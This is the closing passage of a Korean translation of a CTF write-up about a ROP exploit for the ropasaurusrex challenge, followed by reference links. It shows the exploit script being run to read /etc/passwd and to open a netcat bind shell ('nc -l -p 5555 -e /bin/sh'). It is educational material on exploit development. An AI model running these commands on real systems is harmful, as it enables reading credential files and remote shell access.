 
그리고 실행 결과입니다.

``` sh
$ ruby sploit.rb "cat /etc/passwd"
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
[...]
```


물론 `cat /etc/passwd`를 원하는 값으로 바꿀 수 있고, netcat 리스너도 넣을 수
있죠!

``` sh
ron@debian-x86 ~ $ ruby sploit.rb "pwd"
/home/ron
ron@debian-x86 ~ $ ruby sploit.rb "whoami"
ron
ron@debian-x86 ~ $ ruby sploit.rb "nc -vv -l -p 5555 -e /bin/sh" &
[1] 3015
ron@debian-x86 ~ $ nc -vv localhost 5555
debian-x86.skullseclabs.org [127.0.0.1] 5555 (?) open
pwd
/home/ron
whoami
ron
```



## 결론
{: #conclusion}


이게 끝입니다! 방금 믿을 만한, DEP/ASLR을 우회하는 ropasaurusrex 취약점 공격
스크립트를 만들었습니다.


질문이 있다면 댓글을 달거나 저에게 연락해주세요!


[SkullSecurity]: https://blog.skullsecurity.org
[Ron Bowes]: https://blog.skullsecurity.org/author/ron
[external-url]: https://blog.skullsecurity.org/2013/ropasaurusrex-a-primer-on-return-oriented-programming
[hindsight]: http://knowyourmeme.com/memes/captain-hindsight
[cnot]: https://blog.skullsecurity.org/blog/2013/epic-cnot-writeup-plaidctf
[ASLR]: https://en.wikipedia.org/wiki/Address_space_layout_randomization
[ROP]: https://en.wikipedia.org/wiki/Return-oriented_programming
[my writeup of cnot]: https://blog.skullsecurity.org/blog/2013/epic-cnot-writeup-plaidctf
[return into libc]: https://en.wikipedia.org/wiki/Return-to-libc_attack
[DEP]: https://en.wikipedia.org/wiki/Data_Execution_Prevention
[return]: https://en.wikipedia.org/wiki/Return_statement
[stack]: https://en.wikipedia.org/wiki/Call_stack
[my assembly tutorial]: https://blog.skullsecurity.org/wiki/index.php/The_Stack
[Stack overflows]: https://en.wikipedia.org/wiki/Stack_overflow
[removed by the calling function]: https://en.wikipedia.org/wiki/X86_calling_conventions#cdecl
[except when they're not]: https://en.wikipedia.org/wiki/X86_calling_conventions#stdcall
[Book of Intel]: http://www.intel.com/content/www/us/en/processors/architectures-software-developer-manuals.html
[little endian]: https://en.wikipedia.org/wiki/Endianness
[0]: https://en.wikipedia.org/wiki/Zero_page
[pattern_create.rb]: https://github.com/rapid7/metasploit-framework/blob/master/tools/exploit/pattern_create.rb
[pattern_offset.rb]: https://github.com/rapid7/metasploit-framework/blob/master/tools/exploit/pattern_offset.rb
[xinetd]: https://en.wikipedia.org/wiki/Xinetd
[netcat]: https://en.wikipedia.org/wiki/Netcat
[libc]: https://en.wikipedia.org/wiki/C_standard_library
[stdin and stdout]: https://en.wikipedia.org/wiki/Standard_streams
[socket]: https://en.wikipedia.org/wiki/Network_socket
[.data]: https://en.wikipedia.org/wiki/Data_segment
[core dump]: https://en.wikipedia.org/wiki/Core_dump